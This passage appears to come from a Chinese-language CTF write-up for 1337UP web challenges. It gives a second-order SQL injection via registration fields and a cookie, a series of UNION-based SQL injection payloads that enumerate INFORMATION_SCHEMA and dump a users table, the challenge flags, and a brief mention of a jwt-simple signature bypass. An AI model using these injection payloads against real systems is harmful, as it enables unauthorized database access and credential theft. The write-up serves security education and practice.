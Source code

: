 尝试get，post方式均不可，在cookie处可以回显

![image-20220313180806712](https://img-blog.csdnimg.cn/img_convert/615ff496be1ed25aa5f5ec8c6aec31f5.png)

wp：

```
1. Apply for an account using the payload `\` as the first name and `) UNION SELECT password,2,3,4,5,6,7 FROM admins #` as the last name and some random email and password
2. Note down the `id` from the request response
3. Send a GET request to `/api/user/findUsersWithSameName` using the value from step 2 in a cookie named `userId`. (`Cookie: userId=<your_id>`)
4. Notice you got the flag in the response
```

确实有点难想了

FLAG：1337UP{2nd_0rd3r_SQLi_is_c00l}

# Challenge Shop

一道sql注入题目

![image-20220313181150133](https://img-blog.csdnimg.cn/img_convert/d3067b718e35af12adeba2633e492664.png)

wp：

```
%1$') or 1=1 union select schema_name,null,null from INFORMATION_SCHEMA.SCHEMATA;--
%1$') or 1=1 union select table_name,null,null from INFORMATION_SCHEMA.TABLES where table_schema=%1$'auth%1$';--
%1$') or 1=1 union select column_name,null,null from INFORMATION_SCHEMA.COLUMNS where table_name=%1$'users_erRP9T6C%1$';--
%1$') or 1=1 union select username,key,null from auth.users_erRP9T6C;--
```



# Contact Alex(x)

nodejs题目，给了附件，npm install 安装依赖

所有路由都先判断username是不是Alex

![image-20220313191306852](https://img-blog.csdnimg.cn/img_convert/e358bf74bb6ddbfc547441c3686eb532.png)

看一下生成的逻辑，用户名随机生成，rsa加密

![image-20220313191413973](https://img-blog.csdnimg.cn/img_convert/a55c3805bec96a53388c035e387d1ea5.png)

看了一下package.json中的 jwt-simple 版本为0.5.2 存在 签名验证绕过


